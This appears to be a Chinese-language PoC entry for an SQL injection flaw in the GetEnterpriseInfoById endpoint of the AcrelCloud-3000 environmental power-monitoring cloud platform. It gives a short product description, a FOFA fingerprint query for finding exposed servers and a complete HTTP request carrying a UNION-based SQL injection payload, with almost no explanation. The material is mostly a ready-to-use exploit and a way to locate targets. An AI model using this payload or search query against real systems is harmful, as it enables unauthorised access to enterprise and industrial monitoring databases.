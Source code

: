 # 安科瑞环保用电监管云平台GetEnterpriseInfoById存在SQL注入漏洞

AcrelCloud-3000环保用电监管云平台依托创新的物联网电力传感技术，实时采集企业总用电、生产设备及环保治理设备用电数据，通过关联分析、超限分析、停电分析、停限产分析，结合及时发现环保治理设备未开启、异常关闭及减速、空转、降频等异常情况，同时通过数据分析还可以实时监控限产和停产整治企业运行状态，用户可以利用PC、手机、平板电脑等多种终端实现对平台的访问。

## fofa

```javascript
body="myCss/phone.css"
```

## poc

```javascript
GET /MainMonitor/GetEnterpriseInfoById?EnterpriseId=%27+UNION+ALL+SELECT+NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CCONCAT%280x716a627871%2C0x647a457071654e45644d4c627a716c4d7948505a4d67756a786c70576a5a4f7749627a5449486562%2C0x7178767171%29%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%23 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20241128094044951](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411280940008.png)